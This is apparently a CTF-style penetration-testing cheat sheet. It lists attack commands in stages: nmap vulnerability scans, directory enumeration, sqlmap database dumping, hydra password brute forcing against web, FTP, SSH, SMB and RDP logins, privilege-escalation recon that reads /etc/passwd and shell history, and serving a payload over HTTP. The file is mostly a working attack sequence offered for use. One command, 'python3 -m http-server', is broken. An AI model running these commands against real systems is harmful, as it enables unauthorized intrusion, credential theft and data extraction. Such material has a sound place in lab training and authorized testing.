 # 1° Scan Nmap 

$sudo nmap -A [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn -sV -O [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn --script vuln [Target_IP]

$sudo nmap -Pn -p 80 --script http-enum [Target_IP]

$sudo nmap -Pn --script http-robots.txt [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-anon [Target_IP]

# 2° Scan Dirb/Gobuster

$dirb http://example.com -o dirb-report.txt

$gobuster -u http://example.com -x php.txt,html -w /usr/share/dirb/wordlists/big.txt dir

# 3° Scan SQLMap

$sqlmap -u http://Target_IP/login.php --forms --dump

# 4° Brute Force

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP rdp

# 5° Gain Access

http://example.com/login

http://example/upload

http://example.com/hiden/dir

http://example.com/robots.txt

$ftp Target_IP

$ssh user@Target_IP

$ssh -i id_rsa user@Target_IP

$ssh -oHostKeyAlgorithms=+ssh-rsa user@Target_IP

$sudo mount -o rw <Target_IP>:/backup /tmp/dir-target

$sudo mount -t cifs -o username=user_name //Target_IP/share_name /mnt/dir-target

# 6° Search Priv-Esc

$cat /etc/proc/version

$cat /etc/issue

$cat /etc/passwd

$cat /etc/crontab

$cat /etc/exports

$cat ~/.*history | less

$id

$ls -la /

$ls -la /home

$sudo -l

$getcap -r / 2>/dev/null

$find / -perm -o w -type d 2>/dev/null

$find / -perm -u=s -type f 2>/dev/null

$find / -name perl* python* gcc* 2>/dev/nul

$find /home -name flag*.txt

$find / -user "www-data" -name "*" 2>/dev/null

# 7° Deploy Payload

$python2 -m SimpleHTTPServer 8000

$python3 -m http-server 8000
